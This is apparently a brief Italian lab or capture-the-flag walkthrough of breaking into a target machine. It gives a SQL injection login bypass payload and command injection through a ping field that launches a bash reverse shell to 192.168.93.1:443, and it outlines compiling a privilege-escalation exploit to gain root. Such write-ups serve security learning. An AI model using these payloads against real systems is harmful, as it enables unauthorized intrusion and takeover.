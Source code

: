 Cosa ho fatto:

1) noto form in :80
2) provo con brute force... niente
3) noto che c'è un database in esecuzione
4) provo payload sql injection tramite insider di burp
5) trovo vulnerabilità user= ' or 0=0 # pass= qualunque
6) dentro possibilità di fare ping e ; altri comandi
7) ping: 127.0.0.1; bash -i >& /dev/tcp/192.168.93.1/443 0>&1;
8) ottengo reverse shell...

per root:

1)ottenuta la reverse shell cercarsi l'exploit per la priv escalation
2) passarsela e compilarla ed eseguirla
3) sei root.